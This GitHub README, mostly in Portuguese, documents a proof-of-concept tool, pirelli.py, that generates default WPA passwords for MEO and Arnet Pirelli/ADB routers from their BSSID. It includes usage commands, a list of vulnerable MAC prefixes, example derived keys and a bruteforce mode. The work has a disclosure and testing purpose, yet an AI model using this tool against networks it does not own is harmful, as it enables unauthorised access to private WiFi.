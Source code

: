 Vulnerabilidades nos Routers ADB Italia da MEO. 
==

+ Este algoritmo permite gerar as chaves de encriptação WPA pré-definidas nos Routers da MEO com o SSID "ADSLPT-ABXXXXX"

Referencias
----

* O autor do codigo é [Eduardo Novella](https://twitter.com/enovella_) ([Repositório Original](https://bitbucket.org/dudux/adbpirelli))  que encontrou a vulnerabilidade nos routers ADB utilizado na Argentina pela operadora Arnet. O codigo neste repositorio encontra-se modificado de modo a funcionar nos routers da MEO

Aviso
----
Não me responsabilizo por qualquer problema que lhe possa causar o uso indevido deste codigo, seja de que forma for. Este codigo serve apenas para testar a segurança das redes WiFi

Licence
----
GPLv3
http://gplv3.fsf.org/

Mais info
----

+ http://ednolo.alumnos.upv.es/?p=1883

Usage pirelli
----

	$ python pirelli.py -v
	pirelli.py 1.4 [2015-05-06] ----> http://www.ednolo.alumnos.upv.es

	$ python pirelli.py 
	usage: pirelli.py [-h] [-b [BSSID]] [-v] [-l | -a]

	>>> PoC WPA keygen for WiFi Networks deployed by Arnet in Argentina and MEO in
	Portugal. So far only WiFi networks with essids like WiFi-Arnet-XXXX or
	ADSLPT-ABXXXXX and manufactured by Pirelli are likely vulnerable. See
	http://ednolo.alumnos.upv.es/ for more details. Twitter: @enovella_ and email:
	ednolo[at]inf.upv.es. This software is used just as proof-of-concept, commit
	fraud depends on you!

	optional arguments:
	  -h, --help            show this help message and exit
	  -v, --version         show program's version number and exit
	  -l, --list            List all vulnerable targets
	  -a, --allkeys         Bruteforce mode

	required:
	  -b [BSSID], --bssid [BSSID]
	                        Target mac address

	(+) Help: python pirelli.py -b 74:88:8B:AD:C0:DE

	$ python pirelli.py -l
	[+] Possible vulnerable targets so far:
		 bssid: 00:08:27:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:13:C8:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:17:C2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:19:3E:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1C:A2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1D:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:22:33:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:8C:54:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 30:39:F2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 74:88:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 84:26:15:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:52:6F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:5D:A1:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D0:D4:12:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D4:D1:84:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: DC:0B:1A:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: F0:84:2F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX

	$ python pirelli.py -b 74:88:8B:AD:C0:DE
	[+] MAC     : 74:88:8B:AD:C0:DE
	[+] WPA key : 057mjyggor	SSID: WiFi-Arnet-XXXX (Argentina)
	[+] WPA key : 057mjygg  	SSID: ADSLPT-ABXXXXX  (Portugal)

	$ python pirelli.py -b 74:88:8B:AD:C0:DE -a
	[+] MAC     : 74:88:8B:AD:C0:DE

	[+] WPA keys for SSID: WiFi-Arnet-XXXX (Argentina)
	3c1nrhqy5z
	tugh1hcfog
	057mjyggor
	hj0wl2c2r7
	9yw6um3tc5
	ituqajo8iq
	wfti5odq8c

	[+] WPA keys for SSID: ADSLPT-ABXXXXX  (Portugal)
	3c1nrhqy  
	tugh1hcf  
	057mjygg  
	hj0wl2c2  
	9yw6um3t  
	ituqajo8  
	wfti5odq 